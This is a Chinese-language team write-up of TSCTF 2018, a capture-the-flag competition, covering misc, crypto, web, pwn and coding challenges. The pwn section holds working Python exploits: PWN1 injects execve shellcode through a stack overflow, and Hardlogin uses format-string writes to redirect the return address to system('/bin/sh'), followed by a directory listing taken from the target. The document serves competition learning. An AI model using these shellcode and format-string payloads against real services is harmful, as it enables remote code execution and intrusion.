








# TSCTF 2018 Write Up
#### Team: emmm

#### Team Member：SHawnHardy,Ver0n1ca,colonel

## Misc & Crypto

### 我需要治疗 -- SHawnHardy

把括号去掉就是base64，解码拿到疑似flag串，然后感觉括号不是大括号，应该不是flag

输了进去发现，果然不对

改成大括号也不对

关注公众号然后把假flag输进去，拿到了真的flag

### 爱听音乐的friends -- SHawnHardy

nc了过去，发现是个coding题

本来想脑子记一下，发现题目太多了

写了python脚本才知道歌曲总数量得有30+了

然后发现了TSCTF{So_Where_is_the_real_flag?}

果然这题不是coding题(这题带给我了不好的引导，影响了后面的Zelda，出题人是真的皮)

联想到要求 ：是的话，扣1

我觉得flag可能是隐藏在答案里，要把答案变成一个01串

在多次得到串后证明了这一点(有坑点，可能要取个反才是真正的串)

试了下摩尔斯电码发现前几段和TSCTF匹配

然后问题来了，没有分隔。

再仔细看过了问题后我发现了如果问题含有emmmm那么就是最后一个bit



在尝试了多个在线转换，没有找到能识别'{'和'_'的，之后

我对照维基百科自己解码得到了flag



### 正常的魔塔 -- colonel

一开始打算用CE修改钥匙数和体力值，但是没扫到，放弃。

根据游戏开始时的hint，觉得游戏中会有一些bug。后来发现按h键可进入游戏配置界面，
可以修改当前所在的楼层层数。利用这个bug浏览了所有楼层后，在50层遇到交易py的老头，说要
把所有怪物杀光？？？？

无奈之下搜刮所有楼层的有用资源，在30找到了加100攻100防的宝石，还在32层的商店发现了
另外bug--金钱数大于21就可以购买8000生命或8钥匙，而不需要达到商店老板声称的160.
有了30层的宝石后低楼层的怪物就是渣渣，收集金币后到32层刷生命和钥匙，接下来就是时间的问题了。杀光所有怪物到50层找老头即可达到flag.

### Zhiyu的视频 -- Ver0n1ca

首先在binwalk，strings无果之后，在网上查看到了一个swf[反编译的工具](https://www.52pojie.cn/thread-501799-1-1.html)，看到了flash在时间和空间上的隐藏，但是经过客服提醒这个并没有什么关系，然后hint里面提到了元件，所以就通过反编译工具查看元件部分的定义，看到有一个元件的定义部分出奇地大，本来以为隐藏了另一个文件，但是没有看到什么异样。然后偶然看到这个元件的图形，是一串string。猜测这串string解出来是得到数字的汉字。结合第三个hint，尝试更换不同的输入法，使用五笔输入法的时候，发现可以打出来数字，但是打印到七个汉字的时候出现了非数字，经过客服提示这应该是一句话，于是直接在百度搜索框输入，输入到一半这句话就出来了：一三五七八十腊，三十一天永不差。于是得到flag:TSCTF{13578101231}  //12不要落下(ㆆᴗㆆ)

## Web

### are you in class -- SHawnHardy

根据提示，要在post请求的头里加上ip相关的段

发过去就得到了flag



## PWN

### PWN1 -- Ver0n1ca

这道题从ida里可以看到buff存在溢出，可以覆盖掉v3(存储金额的变量)以及main函数返回值。而且题目主动泄露了buff所在的地址。

检查文件的保护机制：

```shell
	Arch:     i386-32-little
	RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

什么都没开 :D

于是就可以覆盖掉返回值，执行放在栈上的shellcode。由于覆盖返回值难免会覆盖掉v3所以就在第二次读入的时候放入shellcode，shellcode的地址可以直接用泄露出来的地址。

给大佬献上exp：

```python
from pwn import *
debug = 0

if debug:
	context.log_level='debug'
	p = process('./main')
	gdb.attach(p,'b *0x804868f')
else:
    p = remote('10.112.108.77',2333)

p.recvuntil('please input your name:')
p.sendline('vivi')
p.recvuntil('Hello vivi\n')
p.recvline()
r=p.recvline()
addr = int(r[25:32],16)
#print addr
p.recvline()
p.recvuntil('Do you want to change your name?(1(yes) or 2(no)):')
p.sendline('1            '+p32(addr))
p.recvuntil('you have enough money,please input your new name:')
p.send('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80')
p.interactive()
```

### Easycalc -- Ver0n1ca

这道题刚扔进ida就看到了一个叫hackhere的函数，仔细一看是弹一个shell，那八成是将返回值覆盖为此函数地址了。查看main函数有一个change number的功能而且没有检查index的大小，可以通过这个来直接修改返回值。查看文件保护措施：

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看到开了canary，但是应该只要不是异或型的就没关系。试了一下，发现的确没有检测到。

这道题没写exp，直接手输的index和number。

### Hardlogin -- Ver0n1ca

刚开始看到这道题还有一个web页面还以为是在逗我，没想到真的用上了hhh

首先这是一道blind pwn，想起来在tsctf新生赛的时候有一道easylogin很类似，于是就直接用了这道题的官方write up来dump二进制文件，然后放到ida里，发现有一个检查password，password是随机生成的，地址固定，可以直接通过格式化字符串读取。先用下面这个脚本看看执行 ls -al的效果。

```python
from pwn import *
context.log_level='debug'

def leak(io):
    addr = 0x804a04c
    payload =  "%13$s|||" + p32(addr)
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
	io.sendlineafter("Password:",data);
    io.recvall()

if __name__ == '__main__':
    ip = '10.112.108.77'
    port = 2336
    io = remote(ip,port)
    leak(io)
```

结果如下：

```shell
'total 1764\n'
    'drwxr-xr-x 2 root root          4096 May 23 16:29 .\n'
    'drwxr-xr-x 8 root root          4096 May 23 16:29 ..\n'
    '-rwxr-x--- 1 root hard_login      39 May 23 16:08 flag\n'
    '-rwxr-xr-x 1 root hard_login    7780 May 23 16:08 hard_login.bak\n'
    '-rwxr-xr-x 1 root root           289 May 23 16:08 index.html\n'
    '-rw-r--r-- 1 root root           612 May 23 16:29 index.nginx-debian.html\n'
```

看到index.html才知道原来是从web上下载二进制文件和libc呀。

下载完了之后开始天真地疯狂修改GOT表。。然后每次都是SIGSEGV，还以为是我写错了于是疯狂检查。直到查看保护机制：

```shell
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这个full relro是什么鬼，查了之后发现是防止修改got表的(´ﾟдﾟ`)。。

所以还能想到的就是覆盖返回值了。将main函数返回值覆盖为system，然后在返回值所在地址加八的地方放入/bin/sh的地址。不过返回值所在地址需要先泄漏才可以。/bin/sh我是放在了username里面，但是具体哪个位置不会被之后的程序修改还需要自己试一下。整个exp逻辑如下，先泄漏printf地址，计算system地址；泄漏返回值地址；覆盖返回值地址；覆盖参数地址；放入参数以及通过password的check从而返回。

```python
from pwn import *
context.log_level='debug'
binary = ELF("./hard_login.bak")
printf_got = binary.got["printf"]
libc = ELF("./libc-2.23.so.bak")
#libc = ELF("/lib32/libc.so.6")
libc_sys = libc.symbols["system"]
libc_printf = libc.symbols["printf"]
libc_puts = libc.symbols["puts"]

def unsigned(n):
    return n & 0xFFFFFFFF

def leak(io):
    #----------------------------get sys addr----------------------
    length = 0
    addr = printf_got
    payload =  "%13$s|||" + p32(addr)
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    sys_addr = u32(data[0:4]) + libc_sys - libc_printf
    print hex(sys_addr)
    io.sendlineafter('Password:','xx')
    #----------------------------get ret addr----------------------
    payload = "%35$d|||"
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    data = unsigned(int(data))
    ret_addr = data + 0x34
    print ret_addr
    io.sendlineafter('Password:','xx')
    
    #----------------------------cover ret-------------------------
    payload = p32(ret_addr) + p32(ret_addr + 2) + "%" + str((sys_addr & 0x0000ffff) - 8 ) +"c%11$hn" + "%" + str(((sys_addr & 0xffff0000) >> 16) - (sys_addr & 0x0000ffff) + 65536) + "c%12$hn"
    io.sendlineafter('Username:',payload)
    io.sendlineafter('Password:','ll')

    sh_addr = ret_addr - 0xd0 + 36
    payload = p32(ret_addr + 8) + p32(ret_addr + 10) + "%" + str((sh_addr & 0x0000ffff) - 8 ) +"c%11$hn" + "%" + str(((sh_addr & 0xffff0000) >> 16) - (sh_addr & 0x0000ffff) + 65536) + "c%12$hn"
    io.sendlineafter('Username:',payload)
    io.sendlineafter('Password:','ll')
    #----------------------------retern----------------------------
    addr = 0x804a04c
    payload =  "%13$s|||" + p32(addr) + "ABCDEFGHIJKLMNOPQRSTUVWX/bin/sh"
    io.recvuntil('Username:')
    io.sendline(payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
    io.sendlineafter("Password:",data)
    io.interactive()
if __name__ == '__main__':
    ip = '10.112.108.77'
    port = 2336
    io = remote(ip,port)
    #io = process('./hard_login.bak')
    #gdb.attach(io,'b *0x80487FF')
    leak(io)
```


## Coding

### ballgame -- SHawnHardy

弹球游戏，step n是让时间流逝n秒，move n是接球板瞬移到n位置。

首先我想到的方法是先step 1判断出球的运动轨迹，然后直接模拟出怎么弹球。

但是这个游戏的弹球判定太迷了，撞击后移动的方向没有个明确的规则。感觉一个个找，再写进去，再debug会累死，所以放弃了预判运动轨迹。

最终的方案是这样，step球的高度-1（避免掉下去），然后判断下一步是否会掉下去，如果会掉下去就把板移动到能接到的地方，然后再step1

这个方法极其看脸。。。超时的概率极高。而我又是一个非酋，所以最开始一直各种剩两三个，甚至还会只剩下一个。



在尝试了不下二十余次后我决定加个优化（雾）

做法是这样：经过分析很多step被浪费在了刚弹出板的那几次，因为球的高度不高，所以step的步数总是很低。于是我加入了一个随机，如果触板，有一半的概率step1，保证极端情况也不会掉下去（刚弹上去就撞下来），另一半概率step2

神奇优化：

再尝试了十几次后终于是出货了



### gobang -- colonel

一个五子棋游戏，主要是预处理服务器端发回的数据，至于下棋的逻辑，无非是dfs之类的，网上一大堆，在此不服赘述。

```java
	public static void main(String args[]) throws InterruptedException {
	        String host = "10.112.108.77";
	        int port = 1113;
	        Ai ai = new Ai();
	        try {
	          Socket client = new Socket(host, port);
	          OutputStream out = client.getOutputStream();//获取服务端的输出流，为了向服务端输出数据  
	          InputStream in=client.getInputStream();//获取服务端的输入流，为了获取服务端输入的数据  
	    
	          PrintWriter bufw=new PrintWriter(out,true);  
	          BufferedReader bufr=new BufferedReader(new InputStreamReader(in)); 
	          
	          
	          String play[][] = {
	             {"AA","AB","AC","AD","AE","AF","AG","AH","AI","AJ","AK","AL","AM","AN","AO"},
	             {"BA","BB","BC","BD","BE","BF","BG","BH","BI","BJ","BK","BL","BM","BN","BO"},
	             {"CA","CB","CC","CD","CE","CF","CG","CH","CI","CJ","CK","CL","CM","CN","CO"},
	             {"DA","DB","DC","DD","DE","DF","DG","DH","DI","DJ","DK","DL","DM","DN","DO"},
	             {"EA","EB","EC","ED","EE","EF","EG","EH","EI","EJ","EK","EL","EM","EN","EO"},
	             {"FA","FB","FC","FD","FE","FF","FG","FH","FI","FJ","FK","FL","FM","FN","FO"},
	             {"GA","GB","GC","GD","GE","GF","GG","GH","GI","GJ","GK","GL","GM","GN","GO"},
	             {"HA","HB","HC","HD","HE","HF","HG","HH","HI","HJ","HK","HL","HM","HN","HO"},
	             {"IA","IB","IC","ID","IE","IF","IG","IH","II","IJ","IK","IL","IM","IN","IO"},
	             {"JA","JB","JC","JD","JE","JF","JG","JH","JI","JJ","JK","JL","JM","JN","JO"},
	             {"KA","KB","KC","KD","KE","KF","KG","KH","KI","KJ","KK","KL","KM","KN","KO"},
	             {"LA","LB","LC","LD","LE","LF","LG","LH","LI","LJ","LK","LL","LM","LN","LO"},
	             {"MA","MB","MC","MD","ME","MF","MG","MH","MI","MJ","MK","ML","MM","MN","MO"},
	             {"NA","NB","NC","ND","NE","NF","NG","NH","NI","NJ","NK","NL","NM","NN","NO"},
	             {"OA","OB","OC","OD","OE","OF","OG","OH","OI","OJ","OK","OL","OM","ON","OO"}
	          };
	          
	          int count = 1;
	          
	          while (true)   
	          {  
	        	  
	              String line=null;  
	              line=bufr.readLine();//读取服务端传来的数据  
	              
	              if(line == null){
	            	  break;
	              }
	              
	              if(count == 2 ){//抢先手
	            	  if(line.startsWith("robot move to")) break;
	            	  else if(line.startsWith("you move to")){
	            		  String s = line.substring(12, 14);
		            	  int x  = s.charAt(0)-'A' + 1;//行号
		            	  int y  = s.charAt(1)-'A' + 1;//列号
		            	  
		            	
		            	  //System.out.println(s +" "+x+" "+y);
		            	  ai.firtStep(x,y);

	            	  }
	              }
	              
	              
	              if(line.startsWith("O")){
	            	  System.out.println(line);
	            	  int x = ai.bestpoint.x - 1;//列号
	            	  int y = ai.bestpoint.y - 1;//行号
	            	  
	            	  bufw.println(play[y][x]);//发送数据给服务端   
	            	  System.out.println("my ai move to " + play[y][x]);
	            	  
	            	  System.out.println("  A B C D E F G H I J K L M N O");
	            	  for(int i=1;i<=15;++i){
	            		  char c = (char) (65+i-1) ;
	            		  System.out.print(c + " ");
	            		  for(int k=1;k<=15;++k){
	            			   
	            			  if(ai.chessBoard[i][k] == 0)
	            				  System.out.print(". ");
	            			  else if(ai.chessBoard[i][k] == 1)
	            				  System.out.print("O ");
	            			  else if(ai.chessBoard[i][k] == -1)
	            				  System.out.print("X ");
	            		  }
	            		  System.out.print("\n");
	            	  }
	            	  ++count;
	            	  Thread.sleep(200);
	            	  continue;
	              }else if(line.startsWith("robot move to")){
	            	  String s = line.substring(14, 16);
	            	  int x  = s.charAt(0)-'A' + 1;//行号
	            	  int y  = s.charAt(1)-'A' + 1;//列号
	            	  //System.out.println(s +" "+x+" "+y );
	            	   
                      Ai.putChess(y*45,x*45);//敌方ai下  
                      
                      if(!Ai.isFinished){  //我方ai下
                          Ai.isBlack=true;  
                          Ai.myAI();
                      }  
                      Ai.isFinished=false;   
    
	              }
	             
	              
	              ++count;
	              System.out.println(line);//打印服务端传来的数据  
	          } 
	          
	          
	          bufw.close();
	          bufr.close();
	          out.close();
	          in.close();
	          client.close();
	          
	          
	        } catch (IOException e) {
	          e.printStackTrace();
	        }
	        
	    }
```
	其中AI类的源码详见http://zhaidongyan.cn/alpha-beta-AIWuziqi/

### Zelda -- SHawnHardy

过一个迷宫，然后解一个背包

一开始，我写dfs解迷宫算法写残了，导致我以为需要解的迷宫不止一个

写残了的结果就是，第一次跑不到终点，返回的是一个中间态，然后就一直到不了终点，总是timeout

这让我以为是和“爱听音乐的friends”一样，coding壳的misc题，花费了大量时间思考这个迷宫和路径会隐藏什么信息

修正了迷宫程序之后成功的看到了第二个问题，解一个多重背包

在多次测试之后我发现这个题是固定不变的，所以与其写个程序解，不如用眼睛瞪出来



提交答案，flag到手


### PartyOfGodZe -- SHawnHardy

在经过漫长的和客服套近乎，向客服诉苦后我终于搞懂了题意。

题意可以转化为：一个无向图，有C个点，R条边。C个点中有一个点是泽神家，有H个点是小伙伴家，有F个点放的是食物。要求出最优方案(路径最短)的路径长度。这个方案是每个小伙伴从家出发到泽神家，同时，每种食物至少要有一个小伙伴拿到。

点数量级不大，使得我们可以用Floyd-Warshall算法处理出任意两点的最短距离。这样的话就可以缩小点的数量，不再关心除了泽神家，小伙伴家，食物以外的点。

求解的过程为暴力枚举方案。

递归的方式构造食物和小伙伴的映射(每种食物只指定一个小伙伴去拿，但一个小伙伴可能被规划要去拿多个食物)，再求当前方案的最小距离。

求方案的最小距离也是暴力枚举方案。

比如说小伙伴A要拿食物B1，B2，B3，最后到泽神家，那么我们就遍历所有B的排列，从而拿到最短距离。

最后成功的通过了这道题。



